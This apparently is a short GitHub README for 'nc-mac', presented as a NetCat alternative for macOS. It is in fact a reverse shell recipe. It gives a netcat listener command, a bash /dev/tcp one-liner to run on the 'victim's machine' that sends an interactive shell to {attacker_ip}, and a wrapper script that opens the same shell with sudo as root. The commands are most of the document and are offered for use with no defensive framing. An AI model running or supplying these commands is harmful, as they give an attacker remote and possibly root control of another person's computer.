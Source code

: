 # nc-mac
A simple NetCat alternative for MacOS

## On the listener's machine:

You can simply run the command

```
nc -lnvp {port}
```

this will set up a listener that will run until a connection disconnects

## On the "victim"'s machine:

You can run
```
bash -i >& /dev/tcp/{attacker_ip}/{port} 0>&1
```
or set up a fancy shell file like I have:

```sh
#!/bin/bash

if [ "$1" == "root" ]; then
    sudo bash -i >& /dev/tcp/{attacker_ip}/{port} 0>&1
else
    bash -i >& /dev/tcp/{attacker_ip}/{port} 0>&1
fi
```

this is basically the equivelent of running nc with the `-e` switch on linux, but on mac

cool right?

